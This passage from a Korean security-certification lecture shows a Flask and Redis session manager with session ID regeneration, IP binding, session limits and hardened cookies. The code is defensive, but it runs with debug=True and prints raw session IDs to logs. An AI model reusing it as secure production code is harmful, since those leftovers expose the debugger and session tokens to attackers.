        self.session_timeout = 1800  # 30분
        self.max_sessions_per_user = 3  # 사용자당 최대 세션 수
        self.session_regenerate_interval = 900  # 15분마다 세션 ID 재생성
        
        # 보안 설정
        self.secure_random = secrets.SystemRandom()
    
    def generate_session_id(self):
        """안전한 세션 ID 생성"""
        # 고엔트로피 랜덤 값 사용
        random_bytes = secrets.token_bytes(32)
        timestamp = str(time.time()).encode()
        
        # SHA-256 해시로 세션 ID 생성
        session_data = random_bytes + timestamp
        session_id = hashlib.sha256(session_data).hexdigest()
        
        return session_id
    
    def create_session(self, user_id, user_info=None, ip_address=None, user_agent=None):
        """새 세션 생성"""
        session_id = self.generate_session_id()
        current_time = datetime.utcnow()
        
        session_data = {
            'user_id': user_id,
            'created_at': current_time.isoformat(),
            'last_accessed': current_time.isoformat(),
            'ip_address': ip_address,
            'user_agent': user_agent,
            'is_active': True,
            'regenerated_at': current_time.isoformat()
        }
        
        if user_info:
            session_data.update(user_info)
        
        # 기존 세션 수 확인 및 정리
        self._cleanup_user_sessions(user_id)
        
        # 세션 저장
        session_key = f"session:{session_id}"
        self.redis_client.hmset(session_key, session_data)
        self.redis_client.expire(session_key, self.session_timeout)
        
        # 사용자별 세션 목록 업데이트
        user_sessions_key = f"user_sessions:{user_id}"
        self.redis_client.sadd(user_sessions_key, session_id)
        self.redis_client.expire(user_sessions_key, self.session_timeout)
        
        return session_id
    
    def validate_session(self, session_id, ip_address=None, user_agent=None):
        """세션 유효성 검증"""
        if not session_id:
            return None, "세션 ID가 없습니다"
        
        session_key = f"session:{session_id}"
        session_data = self.redis_client.hgetall(session_key)
        
        if not session_data:
            return None, "유효하지 않은 세션입니다"
        
        # 바이트 데이터를 문자열로 변환
        session_data = {k.decode(): v.decode() for k, v in session_data.items()}
        
        # 세션 활성 상태 확인
        if not session_data.get('is_active', '').lower() == 'true':
            return None, "비활성화된 세션입니다"
        
        # IP 주소 확인 (선택적)
        if ip_address and session_data.get('ip_address') != ip_address:
            self._handle_session_hijack_attempt(session_id, ip_address)
            return None, "세션 보안 위반이 감지되었습니다"
        
        # User-Agent 확인 (선택적)
        if user_agent and session_data.get('user_agent') != user_agent:
            # User-Agent는 브라우저 업데이트 등으로 변경될 수 있으므로 경고만
            print(f"세션 {session_id}: User-Agent 변경 감지")
        
        # 세션 만료 확인
        last_accessed = datetime.fromisoformat(session_data['last_accessed'])
        if datetime.utcnow() - last_accessed > timedelta(seconds=self.session_timeout):
            self.destroy_session(session_id)
            return None, "세션이 만료되었습니다"
        
        # 세션 ID 재생성 확인
        regenerated_at = datetime.fromisoformat(session_data.get('regenerated_at', session_data['created_at']))
        if datetime.utcnow() - regenerated_at > timedelta(seconds=self.session_regenerate_interval):
            new_session_id = self._regenerate_session_id(session_id)
            session_data['session_id'] = new_session_id
        
        # 마지막 접근 시간 업데이트
        self.redis_client.hset(session_key, 'last_accessed', datetime.utcnow().isoformat())
        self.redis_client.expire(session_key, self.session_timeout)
        
        return session_data, None
    
    def _regenerate_session_id(self, old_session_id):
        """세션 ID 재생성"""
        old_session_key = f"session:{old_session_id}"
        session_data = self.redis_client.hgetall(old_session_key)
        
        if not session_data:
            return None
        
        # 새 세션 ID 생성
        new_session_id = self.generate_session_id()
        new_session_key = f"session:{new_session_id}"
        
        # 바이트 데이터를 문자열로 변환하고 업데이트
        session_data = {k.decode(): v.decode() for k, v in session_data.items()}
        session_data['regenerated_at'] = datetime.utcnow().isoformat()
        
        # 새 세션으로 복사
        self.redis_client.hmset(new_session_key, session_data)
        self.redis_client.expire(new_session_key, self.session_timeout)
        
        # 사용자 세션 목록 업데이트
        user_id = session_data['user_id']
        user_sessions_key = f"user_sessions:{user_id}"
        self.redis_client.srem(user_sessions_key, old_session_id)
        self.redis_client.sadd(user_sessions_key, new_session_id)
        
        # 기존 세션 삭제
        self.redis_client.delete(old_session_key)
        
        return new_session_id
    
    def destroy_session(self, session_id):
        """세션 삭제"""
        session_key = f"session:{session_id}"
        session_data = self.redis_client.hgetall(session_key)
        
        if session_data:
            user_id = session_data.get(b'user_id', b'').decode()
            if user_id:
                user_sessions_key = f"user_sessions:{user_id}"
                self.redis_client.srem(user_sessions_key, session_id)
        
        self.redis_client.delete(session_key)
    
    def destroy_all_user_sessions(self, user_id):
        """사용자의 모든 세션 삭제"""
        user_sessions_key = f"user_sessions:{user_id}"
        session_ids = self.redis_client.smembers(user_sessions_key)
        
        for session_id in session_ids:
            session_key = f"session:{session_id.decode()}"
            self.redis_client.delete(session_key)
        
        self.redis_client.delete(user_sessions_key)
    
    def _cleanup_user_sessions(self, user_id):
        """사용자 세션 정리 (최대 세션 수 제한)"""
        user_sessions_key = f"user_sessions:{user_id}"
        session_ids = list(self.redis_client.smembers(user_sessions_key))
        
        if len(session_ids) >= self.max_sessions_per_user:
            # 가장 오래된 세션들을 삭제
            sessions_with_time = []
            
            for session_id in session_ids:
                session_key = f"session:{session_id.decode()}"
                last_accessed = self.redis_client.hget(session_key, 'last_accessed')
                
                if last_accessed:
                    sessions_with_time.append((session_id.decode(), last_accessed.decode()))
            
            # 시간순으로 정렬하여 오래된 세션 삭제
            sessions_with_time.sort(key=lambda x: x[1])
            sessions_to_remove = sessions_with_time[:len(sessions_with_time) - self.max_sessions_per_user + 1]
            
            for session_id, _ in sessions_to_remove:
                self.destroy_session(session_id)
    
    def _handle_session_hijack_attempt(self, session_id, suspicious_ip):
        """세션 하이재킹 시도 처리"""
        print(f"⚠️  세션 하이재킹 시도 감지: {session_id} from {suspicious_ip}")
        
        # 해당 세션 즉시 삭제
        self.destroy_session(session_id)
        
        # 보안 로그 기록
        security_log = {
            'timestamp': datetime.utcnow().isoformat(),
            'event': 'session_hijack_attempt',
            'session_id': session_id,
            'suspicious_ip': suspicious_ip
        }
        
        # 실제 구현에서는 SIEM이나 보안 모니터링 시스템으로 전송
        self.redis_client.lpush('security_events', json.dumps(security_log))
    
    def get_user_sessions(self, user_id):
        """사용자의 활성 세션 목록 조회"""
        user_sessions_key = f"user_sessions:{user_id}"
        session_ids = self.redis_client.smembers(user_sessions_key)
        
        sessions = []
        for session_id in session_ids:
            session_key = f"session:{session_id.decode()}"
            session_data = self.redis_client.hgetall(session_key)
            
            if session_data:
                session_info = {k.decode(): v.decode() for k, v in session_data.items()}
                sessions.append({
                    'session_id': session_id.decode(),
                    'created_at': session_info.get('created_at'),
                    'last_accessed': session_info.get('last_accessed'),
                    'ip_address': session_info.get('ip_address'),
                    'user_agent': session_info.get('user_agent', '')[:100]  # 축약
                })
        
        return sessions

# Flask 애플리케이션에서 사용
app = Flask(__name__)
session_manager = SecureSessionManager()

@app.before_request
def before_request():
    """요청 전처리 - 세션 검증"""
    # 로그인이 필요하지 않은 경로들
    exempt_paths = ['/login', '/register', '/health']
    
    if request.path in exempt_paths:
        return
    
    session_id = request.cookies.get('session_id') or request.headers.get('X-Session-ID')
    ip_address = request.remote_addr
    user_agent = request.headers.get('User-Agent')
    
    session_data, error = session_manager.validate_session(session_id, ip_address, user_agent)
    
    if error:
        return jsonify({'error': error}), 401
    
    # 세션 데이터를 request에 저장
    request.current_session = session_data

@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    # 사용자 인증
    user = authenticate_user(username, password)
    
    if user:
        # 세션 생성
        session_id = session_manager.create_session(
            user_id=user['id'],
            user_info={'username': user['username'], 'role': user['role']},
            ip_address=request.remote_addr,
            user_agent=request.headers.get('User-Agent')
        )
        
        response = jsonify({
            'success': True,
            'user': {
                'id': user['id'],
                'username': user['username'],
                'role': user['role']
            }
        })
        
        # 보안 쿠키 설정
        response.set_cookie(
            'session_id',
            session_id,
            max_age=session_manager.session_timeout,
            httponly=True,  # JavaScript 접근 방지
            secure=True,    # HTTPS에서만 전송
            samesite='Strict'  # CSRF 방지
        )
        
        return response
    
    return jsonify({'error': '인증 실패'}), 401

@app.route('/api/logout', methods=['POST'])
def logout():
    session_id = request.cookies.get('session_id')
    
    if session_id:
        session_manager.destroy_session(session_id)
    
    response = jsonify({'success': True})
    response.set_cookie('session_id', '', expires=0)
    
    return response

@app.route('/api/sessions')
def get_user_sessions():
    """현재 사용자의 활성 세션 목록"""
    if not hasattr(request, 'current_session'):
        return jsonify({'error': '인증 필요'}), 401
    
    user_id = request.current_session['user_id']
    sessions = session_manager.get_user_sessions(user_id)
    
    return jsonify({'sessions': sessions})

@app.route('/api/sessions/<session_id>', methods=['DELETE'])
def terminate_session(session_id):
    """특정 세션 종료"""
    if not hasattr(request, 'current_session'):
        return jsonify({'error': '인증 필요'}), 401
    
    # 자신의 세션만 종료 가능 (또는 관리자)
    user_id = request.current_session['user_id']
    user_sessions = session_manager.get_user_sessions(user_id)
    
    if any(s['session_id'] == session_id for s in user_sessions):
        session_manager.destroy_session(session_id)
        return jsonify({'success': True})
    
    return jsonify({'error': '권한 없음'}), 403

if __name__ == "__main__":
    app.run(debug=True, ssl_context='adhoc')  # HTTPS 사용
```

## 마무리

이번 19강에서는 **인증 및 세션 보안**의 핵심 요소들을 다뤘습니다. **브루트포스 공격 방어**, **강력한 패스워드 정책**, **포괄적인 인증/인가 시스템**, **안전한 세션 관리** 등을 통해 웹 애플리케이션의 보안을 크게 강화할 수 있습니다.

다음 강의에서는 **CSRF, 자동화 공격, 파일 업로드** 등의 고급 공격 기법과 종합적인 대응 방안을 학습하겠습니다.

---
*이 자료는 해킹보안전문가 1급 자격증 취득을 위한 학습 목적으로 작성되었습니다.*